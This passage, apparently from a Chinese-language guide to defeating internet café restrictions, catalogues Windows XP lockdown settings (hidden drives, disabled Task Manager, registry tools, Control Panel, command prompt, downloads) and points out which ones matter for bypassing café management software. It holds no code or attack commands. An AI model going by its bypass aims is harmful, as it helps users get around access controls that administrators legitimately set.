



- 1.1.6、禁止浏览访问硬盘资源

该限制可以分为两个部分：隐藏本地硬盘和禁止访问本地硬盘。一般网吧只做其中一种限制，其中隐藏硬盘是表面工夫，可以通过“运行”或者命令提示符轻易突破来解除限制；而禁止访问硬盘后你打不开磁盘以及该盘下的所有目录，但在某些场景下仍可通过直接运行文件进入。隐藏硬盘后“我的电脑”中无本地盘，如图 1-1-8。



- 1.1.7、开始菜单中删除“查找”菜单项

搜索是很重要的功能。通过“查找”我们可以找到硬盘中存在的任意文件，也可以直接运行找到的文件或目录。若系统隐藏了磁盘驱动器，搜索路径中将没有隐藏的本地硬盘；若限制访问磁盘驱动器，搜索被限制的本地硬盘不会有任何结果。限制后开始菜单中无“搜索”菜单项，或“搜索”菜单中无“文件或文件夹”项；并且使用 **F3** 或 **Win+F** 快捷键搜索无响应。







- 1.1.8、开始菜单中删除“注销<用户>”菜单项

网吧管理软件很多是随系统启动而自启动的，部分管理软件的启动项绑定默认登录用户（通常是 administrator）。因此通过注销并更改登录用户可能绕过客户端限制。限制后开始菜单中无“注销<用户>”菜单项，如图 1-1-11。

- 1.1.9、开始菜单中删除“设置”下“控制面板”及“网络和拨号连接”

“控制面板”也是各大网吧管理软件必禁项目。“控制面板”中包含“Internet 选项”、“Windows 防火墙”、“管理工具”、“任务栏和「开始」菜单”、“日期和时间”、“添加或删除程序”、“网络连接”、“文件夹选项”、“系统”和“用户帐户”几个对我们 hacking 有用的选项。其中“任务栏和「开始」菜单”项是任务栏属性；“网络连接”是“网上邻居”的属性；“系统”即是“我的电脑”属性。“网络和拨号连接”即“网络连接”。关于控制面板的相关内容将在第二章中做详细讲解，这里不再赘述。限制后“开始菜单”→“设置”中无“控制面板”和“网络连接”，如图 1-1-12。

并且在以其他方式运行以上两个程序时出现如图 1-1-13 的错误提示。



- 1.1.10、在 shell 文件夹中关闭上下文菜单

该项即禁止在资源管理器（包括各驱动器根目录和文件夹）和桌面的空白处及文件上使用右键。这个限制是我最痛恨的限制之一，右键多方便啊！该限制主要禁止的是“属性”选项，这样就无法通过右键菜单新建文件、打开文件、添加文件到 RAR 文档，这些在 hacking 中都是很有用的。限制后在桌面、任何文件夹及根目录点击右键无响应。

- 1.1.11、禁止使用网上邻居

从 WinXP 的网上邻居中可以进入“网络连接”，笔者认为这是上面限制的主要目的。这个限制的可恨之处在于给用户通过局域网共享带来麻烦，同来网吧的几个朋友一般很喜欢通过共享传送文件，限制后桌面上无“网上邻居”。

### 1.2、浏览器限制

- 1.2.1、禁止使用“Internet 选项”

“Internet 选项”位于 IE 浏览器菜单栏的“工具”菜单中，同时存在于控制面板中，同时也是 IE 的属性。“Internet 选项”中有很多有关 IE 安全的选项，因此非常重要，它是我们解除限制的主要目标之一。关于“Internet 选项”的相关内容将在第二章中讲解。限制后无论从何种途径打开它都会出现如图 1-2-1 的提示。



- 1.2.2、禁止更改各个“安全区域”的安全级别

该项存在于“Internet 选项”中的“安全”选项卡中，如图 1-2-2。有“自定义级别”和“默认级别”两项。该项也将在后面章节中讲解，限制后“自定义级别”和“默认级别”两个按钮变灰不可用。



- 1.2.3、禁止增加或删除“安全区域”中的站点

也许有对安全比较重视的管理员会使用该项来限制一些网站不可访问，不过我还没有遇到过，PubwinE 是基于这点给出了该限制。它同样存在于“Internet 选项”的“安全”选项卡中，限制后“站点”按钮变灰不可用。

- 1.2.4、禁止下载

重要！该项是许多网吧维护安全的杀手锏，同时也是许多朋友破解的主要目标。常规方法是通过“Internet 选项”进行限制，当然其根本还是修改注册表了。网络大了，什么鸟都有，管理员最惧怕的病毒和木马程序会增加不必要的工作量，更重要的是对系统的破坏。而同时网络上的破解程序满天飞，在自己的硬盘中看到类似“精锐网吧破解工具”的软件，相信管理员会很不爽的。限制后在你点击下载链接时会出现如图 1-2-3 的提示。相信这也是许多朋友遇到的，已经很熟悉了吧！



### 1.3、其他限制

- 1.3.1、禁止使用注册表工具

当然要禁止了，从这里，管理软件自己也告诉我们注册表中有内情了，呵呵！一般禁止了该项后，注册表的脚本文件（后缀名为 `.reg`）也是不可用的，所以网上的一些用注册表脚本文件解锁注册表是不可行的办法。不过它指出了根本原因：在 WinXP 下做了此限制后，会禁止访问 `%systemroot%` 目录下的 `regedit.exe` 和 `%systemroot%\system32` 目录下的 `regedt32.exe`。也就是说，XP 下提供了两个注册表编辑器（2000 和 2003 下同样）。该项限制后运行注册表编辑器或者导入 reg 文件后出现如图 1-3-1 的提示。



- 1.3.2、禁止用户更改口令

笔者认为没有必要的限制，网吧如果没有还原卡的话维护起来是相当困难的吧！应该是为了防止恶作剧的限制，而且是在没有还原功能的机器上吧。



- 1.3.3、禁止使用任务管理器

我们经常听说，使用进程结束的方法干掉管理软件的进程，而任务管理器就是充当完成该任务的角色。当然不是只杀管理软件进程了，而是大多数存在的进程。任务管理器是 Windows 提供给用户最直观友好的管理进程和应用程序的工具，它同时还可以新建任务，比如运行一个程序。通过它还可以查看系统性能等。所以说任务管理器对我们非常重要，也就是限制的理由了。限制后用 **Ctrl+Alt+Del** 键打开任务管理器出现如图 1-3-2 的提示。

- 1.3.4、禁止运行命令解释器和批处理文件

在笔者去过的网吧中，对此项做限制的甚少。其实这也许是国内网络管理员普遍安全意识不高的侧面表现。在 Windows 中命令行解释器处在一个什么样的地位呢？而对于我们的网吧破解呢？批处理又可以为我们做一些什么事情呢？这些都会在第三章中做详细讲解。可以明确地告诉你，命令行解释器是非常重要的。限制后运行命令行解释器（在 Windows XP 下为 `cmd.exe`）或者运行批处理文件将出现如图 1-3-3、1-3-4 的命令提示符界面。




- 1.3.5、禁止使用控制面板

可于开始菜单中删除“设置”下“控制面板”项目。

- 1.3.6、禁止启动时使用 F5、F8 键（Win9x）

F5 键在 WinXP 下使用是无效的，而使用 F8 键可以进入几种类型的安全模式，比如“带命令行的安全模式”、“带网络连接的安全模式”等。从安全模式启动的操作系统只会加载系统必须的程序，其他的程序则不会加载。Win9x 下可通过修改 `msdos.sys` 文件达到禁用 F8 的目的，而在 NT 系统中该文件是 `ntldr.sys`。在 Win9x（具体来说应是 Win98）系统启动时按 F5 或 F8 键无效。

- 1.3.7、禁止修改时间

即禁止打开任务栏最右侧的时间设置。该限制不是通过注册表实现的，时间设置在 Windows XP 下对应的是 `%systemroot%\system32\timedate.cpl` 文件，这是一个控制面板扩展文件。只要删除或重命名该文件就可以达到限制目的。限制后在时间上双击鼠标无响应。

## 2、组策略与注册表

### 2.1、组策略编辑器

